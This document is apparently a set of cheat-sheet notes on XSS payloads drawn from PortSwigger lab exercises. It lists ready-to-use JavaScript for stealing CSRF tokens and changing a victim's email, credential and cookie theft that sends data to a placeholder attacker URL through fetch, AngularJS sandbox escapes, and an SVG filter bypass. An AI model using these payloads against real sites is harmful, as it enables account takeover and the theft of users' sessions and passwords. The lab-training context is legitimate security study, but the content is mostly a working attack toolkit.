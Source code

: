 # XSS

- Csrf token stealing
    
    ```jsx
    <script>
    var req = new XMLHttpRequest();  // assigning new variable for http request
    req.onload = change_email; // When request is processing start "change_email" funciton
    req.open('get', '/my-account', true);
    req.send();
    function change_email() {
    		var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    		var newreq = new XMLHttpRequest();
    		newreq.open('post', '/my-account/change-email', true);
    		newreq.send('csrf='+csrf_token+'&email=test@test.com')
    };
    </script>
    
    // Authorized by portswigger
    <script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
    </script>
    ```
    
- Credentials stealing
    
    ```jsx
    <input> id=username name=username>
    <input> id=password name=password type=password 
    onchange='if(this.value.length)
    fetch("<url>?username="+username.value+"&password="+this.value)'>
    ```
    
- Cookies stealing
    
    ```jsx
    <script>
    fetch('<url>?cookie='+document.cookie);
    </script>
    ```
    
- Reflected XSS with AngularJS sandbox escape without strings
    
    ```jsx
    toString().constructor.prototype.charAt=[].join;  // This will change charAt function's property to .join function | CharAt function's work is exactly opposite of .join function but this line will change that and equal it to .join function | CharAt function is used in detection of malicious strings in sandbox .
    
    [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41) // This line telling javascript to sort that list [1,2] on the basis of give code in orderBy | Given digits are in decibal format and it will by that function converts into x=alert(1)
    ```
    
- **Reflected XSS with AngularJS sandbox escape and CSP**
    
    ```jsx
    <input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
    ```
    
- **Reflected XSS with event handlers and `href` attributes blocked**
    
    ```jsx
    <svg><a><animate attributeName='href' values='javascript:alert(1)'/><text x='20' y='35'>Click me</a></svg>
    ```